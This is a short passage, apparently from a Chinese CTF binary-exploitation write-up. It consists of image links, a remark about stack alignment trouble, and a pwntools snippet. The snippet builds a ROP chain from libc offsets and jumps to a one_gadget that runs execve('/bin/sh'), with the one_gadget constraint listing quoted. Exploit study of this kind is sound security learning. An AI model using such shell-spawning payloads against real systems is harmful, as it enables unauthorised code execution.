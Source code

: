 [![](assets/1701606597-05567e95d8001bcfbfcbe11972cca579.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170324-ff8c579e-845e-1.png)

[![](assets/1701606597-7bd2d737d7b2a9ba93e72190c1416893.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170328-022e8fe4-845f-1.png)

蚌埠住了，栈平衡真的好玄学，sys 调了好久都不行，换 og 一把出了

```plain
r12 = 0x000000000002f709+libc_base
og = libc_base + 0xe3afe
pl =  p64(0) +  p64(r12)+ p64(0) +p64(og) #p64(ret)+p64(rdi)+p64(bin_sh)+p64(system) #5 
p.send(pl)

'''
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
'''
```

[![](assets/1701606597-6e839b5c7e8e9164fb03390fafcb8b65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170334-0588b2d2-845f-1.png)
